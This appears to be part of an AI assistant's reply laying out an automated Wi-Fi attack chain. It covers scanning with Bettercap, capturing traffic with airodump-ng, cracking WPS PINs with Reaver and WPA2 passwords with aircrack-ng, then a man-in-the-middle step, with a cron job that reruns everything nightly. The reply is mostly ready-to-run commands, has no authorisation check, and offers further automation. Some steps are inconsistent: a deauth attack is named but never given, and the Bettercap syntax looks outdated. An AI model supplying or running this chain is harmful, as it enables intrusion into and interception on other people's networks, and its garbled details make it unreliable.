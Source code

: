 1. **Start by Scanning the Target Network with Bettercap**:
   - Use Bettercap to monitor and sniff the wireless network environment, allowing you to gather BSSID, signal strength, and other data useful for subsequent attacks.

   ```bash
   bettercap -I wlan0 --caplet /usr/local/share/bettercap/caplets/802.11-attack-sniffer.cap
   ```

2. **Deauth Clients and Capture Traffic with Aircrack-ng**:
   - After identifying a target network using Bettercap, launch `airmon-ng` to put your wireless interface into monitoring mode.
   - Then, use `airodump-ng` to capture packets.

   ```bash
   airmon-ng start wlan0
   airodump-ng -c 6 --bssid XX:XX:XX:XX:XX:XX -w capture wlan0mon
   ```

3. **Use Reaver to Crack WPS PIN**:
   - After capturing the target AP’s information, use Reaver to attempt WPS PIN cracking if applicable.

   ```bash
   reaver -i wlan0mon -b XX:XX:XX:XX:XX:XX -vv -K 1
   ```

4. **Attempt WPA2 Cracking with Aircrack-ng**:
   - After capturing the WPA handshake (from `airodump-ng`), use `aircrack-ng` to crack the WPA2 password.

   ```bash
   aircrack-ng -w /path/to/wordlist.txt capture-01.cap
   ```

5. **Perform Man-in-the-Middle Attack with Bettercap**:
   - Once you've cracked the WPA2 password, you can proceed to perform a Man-in-the-Middle attack, such as ARP spoofing, to sniff additional traffic or even hijack the connection.

   ```bash
   bettercap -I wlan0mon --sniffer-output capture.pcap -L 20
   ```

### Final Automation with Cron
You can automate the entire process by scheduling these scripts to run in sequence using `cron`. Here's a sample cron job that runs the Wi-Fi cracking and monitoring tools every day at midnight:

```bash
0 0 * * * /path/to/your/auto-wifi-crack.sh
```

This setup combines multiple tools into one seamless workflow and automates the entire process from reconnaissance to cracking and exploitation.

---

These automated scripts and optimized toolchain sequences are designed to speed up your penetration testing work and minimize manual intervention. Would you like to explore further into custom automation, scheduling, or integrating more tools?
